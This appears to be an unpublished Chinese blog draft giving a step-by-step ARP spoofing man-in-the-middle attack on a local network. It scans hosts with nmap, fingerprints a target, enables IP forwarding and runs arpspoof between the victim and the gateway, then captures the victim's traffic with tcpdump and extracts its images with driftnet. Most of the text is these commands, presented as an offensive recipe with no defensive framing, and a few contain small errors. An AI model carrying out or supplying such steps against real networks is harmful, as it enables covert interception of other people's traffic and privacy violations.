 ```yaml
---
title: ARP攻击
layout: post
tags: []
published: false
category: Uncategoried
---
```

#1. 锁定目标
```
$ nmap -sp 192.168.1.0/24
```
#2. 收集信息
```
$ nmap -A 192.168.1.110
```
#3.开启IP转发和ARP欺骗
该步仅针对交换式局域网，共享式网络可以忽略(共享式网络只要打开网卡的混杂模式就可以抓取所有内网数据包)，ARP欺骗一般目的是吧自己伪装成网关，但如果不作处理，当被欺骗数据包到达后就会被本机抛弃(因为自己到底不是网关，还不知道如何处理这类数据包)，这当然是不允许的。开启IP转发功能可以解决这个问题，IP转发负责把该类数据包再转发给真正的网关处理，开启IP转发的方法
```
$ sudo echo 1 > /proc/sys/net/ipv4/ip_forward
$ sudo arpspoof -i eth0 -t 192.168.1.110 192.168.1.1
$ sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.110

```

#4.抓取数据包
```
$ sudo tcpdump -i eth1 host 192.168.1.110
```

#5. 收获果实
抓取主机A http流量中的图片，通过driftnet工具实现。运行下面命令
```
$ sudo driftnet -t eth1
```